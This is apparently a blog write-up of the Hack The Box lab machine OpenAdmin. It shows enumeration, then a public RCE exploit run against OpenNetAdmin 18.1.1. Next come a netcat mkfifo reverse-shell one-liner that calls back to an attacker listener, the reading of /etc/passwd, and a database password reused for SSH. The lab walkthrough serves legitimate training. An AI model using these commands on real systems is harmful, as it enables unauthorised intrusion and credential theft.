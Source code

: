 # OpenAdmin - Hack The Box

![image]({{0xtaylur.github.io}}/assets/openadmin/card.png)

## Summary
OpenAdmin is an easy linux box that starts off using an RCE exploit for the OpenNetAdmin service on port 80. Then, I get credentials from a database config that can be used to SSH into the box. I find another web application with a SHA512 hash in the code for a login page. After looking at the webpage I find an encrypted SSH key that needs to be cracked. Once I get the last shell I can run nano as root with sudo and get a root shell.

### Enumeration

A short nmap scan reveals two ports: 22 for SSH, and 80 for http.
```
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The default Ubuntu page is shown when I checkout the webserver.
![image]({{0xtaylur.github.io}}/assets/openadmin/port80.png)

Running a gobuster scan reveals 3 hidden directories.
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/02 20:29:51 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
===============================================================
2020/08/02 20:31:46 Finished
===============================================================
```

These 3 directories are static webpages, but I notice a login page on the`/music` page.

### Initial Shell

Going to the login page of`/music`shows that it's running OpenNetAdmin, a system for tracking IP network attributes in a database. It turns out that it's running`v18.1.1`which is vulnerable to RCE.
![image]({{0xtaylur.github.io}}/assets/openadmin/webpage.png)

Running this [exploit](https://github.com/amriunix/ona-rce) will grant me a shell as user`www-data`.
```
root@kali:~/HTB/openadmin# python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$
```

The current shell won't allow me to traverse through it so I decide to upgrade my shell by starting a netcat listener and using this command on the shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1234 >/tmp/f
```

Once I've caught another shell, I upgrade it once again using python.
```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Lateral Movement

I look into what other users are on the box by looking into`/etc/passwd`and find two users: jimmy and joanna.
```
www-data@openadmin:/opt/ona/www/config$ cat /etc/passwd | grep home
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

After some enumeration in the directory`/var/www/html`I find an intersting file named`database_settings.inc.php` which contain credentials.
```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I can use the password`n1nj4W4rri0R!`on user`jimmy`to SSH into the box.
![image]({{0xtaylur.github.io}}/assets/openadmin/jimssh.png)

